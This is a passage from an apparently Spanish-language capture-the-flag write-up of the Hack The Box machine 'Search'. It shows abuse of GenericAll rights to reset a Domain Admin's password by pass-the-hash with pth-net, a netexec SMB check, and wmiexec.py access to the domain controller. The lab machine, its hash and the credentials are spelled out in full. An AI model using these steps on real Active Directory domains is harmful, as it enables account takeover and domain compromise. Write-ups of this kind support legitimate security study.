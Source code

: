 A través de estos privilegios (**GenericAll**) podemos forzar a realizar el cambio de contraseña del usuario (tristan.davies@search.htb).

En este caso, utilizaremos la herramienta de **pth-net** para realizar un **PassTheHash** con el hash NTLM obtenido del ataque anterior.

<figure><img src="../../../.gitbook/assets/image (59).png" alt="" width="441"><figcaption></figcaption></figure>

Realizaremos el cambio de la contraseña haciendo **PassTheHash** a través de **pth-net** y validaremos que se ha modificado correctamente las credenciales del Domain Admin, también verificamos que nos aparece como **Pwn3d**.

{% code overflow="wrap" %}
```bash
pth-net rpc password "TRISTAN.DAVIES" "Gzzcoo123" -U "search.htb"/'BIR-ADFS-GMSA$'%"ffffffffffffffffffffffffffffffff":"e1e9fd9e46d0d747e1595167eedcec0f" -S 10.10.11.129

netexec smb 10.10.11.129 -u 'Tristan.Davies' -p 'Gzzcoo123'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2604_vmware_VY43o1g0yD.png" alt=""><figcaption></figcaption></figure>

Accederemos a través de **wmiexec.py** al Domain controller con las credenciales del Domain Admin y comprobaremos la flag de **root.txt**.
